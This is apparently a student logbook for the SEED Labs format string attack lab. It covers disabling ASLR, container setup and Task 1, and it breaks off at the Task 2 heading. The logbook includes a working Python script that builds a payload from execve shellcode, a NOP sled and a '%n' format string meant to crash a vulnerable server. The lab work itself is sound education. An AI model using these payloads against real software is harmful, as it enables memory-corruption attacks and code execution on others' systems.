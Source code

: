 # **Week 7**

## **SEED Labs**

### Format String Attack Lab

### **Setup**

* First we turned off the Linux Kernel countermeasures, such as Address Space Randomization, because it randomizes the starting address of heap and stack making it harder to guess and guessing addresses is one of the critical steps of the string-formatting attack, we disabled it with the command shown on the lab guide:

```shell
sudo sysctl -w kernel.randomize_va_space=0
```
![Randomization disabled](images/logbook6/randomizedisable.png)

* Then we run a makefile that will compile the program which we will exploit its vulnerability and install it into fmt-containers folder.

![installation](images/logbook6/setup1.png)

* Now we will run in the background a container.

![container](images/logbook6/setup2.png)

* Using the dockps command, we will obtain this list and get the second's shell,
note that by writing the first few characters will be sufficient as long they are unique among all the containers.

![dockps](images/logbook6/setup3.png)

## **Task 1**

* Sending a small message to the server

![task1](images/logbook6/task1.png)

* We will receive the following message in the target container's console

![task1test](images/logbook6/task1test.png)

* Using the following python script we will get an output file named badfile that we will input to the server, we want to cause a crash so the message with the smiley faces can't be printed.

#### build_string.py

```python
#!/usr/bin/python3
import sys

# 32-bit Generic Shellcode 
shellcode_32 = (
   "\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
   "\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
   "\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   # The * in this line serves as the position marker         *
   "/bin/ls -l; echo '===== Success! ======'                  *"
   "AAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBB"   # Placeholder for argv[1] --> "-c"
   "CCCC"   # Placeholder for argv[2] --> the command string
   "DDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')


# 64-bit Generic Shellcode 
shellcode_64 = (
   "\xeb\x36\x5b\x48\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x48"
   "\x89\x5b\x48\x48\x8d\x4b\x0a\x48\x89\x4b\x50\x48\x8d\x4b\x0d\x48"
   "\x89\x4b\x58\x48\x89\x43\x60\x48\x89\xdf\x48\x8d\x73\x48\x48\x31"
   "\xd2\x48\x31\xc0\xb0\x3b\x0f\x05\xe8\xc5\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   # The * in this line serves as the position marker         *
   "/bin/ls -l; echo '===== Success! ======'                  *"
   "AAAAAAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBBBBBB"   # Placeholder for argv[1] --> "-c"
   "CCCCCCCC"   # Placeholder for argv[2] --> the command string
   "DDDDDDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')

N = 1500
# Fill the content with NOP's
content = bytearray(0x90 for i in range(N))

# Choose the shellcode version based on your target
shellcode = shellcode_32

# Put the shellcode somewhere in the payload
start = 20              # Changed start from 0 to 20
content[start:start + len(shellcode)] = shellcode

#   12 of "%.8x", concatenated with a "%n"
s = "%.8x"*12 + "%n"
# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[8:8+len(fmt)] = fmt

# Save the format string to file
with open('badfile', 'wb') as f:
  f.write(content)
```

* String concatenated with a "%n" causes the crash, nothing in this formation option is printed, only the number of characters written so far is stored in the pointed location.

* If an attacker wants to control the format string he will be able to write in to abritary positions of the memory.

### Result

![Task1done](images/logbook6/task1done.png)

* If we compare, this output with the one we did before we see that the message with the smilley faces wasn't printed meaning that the format program might have crashed.

## **Task 2**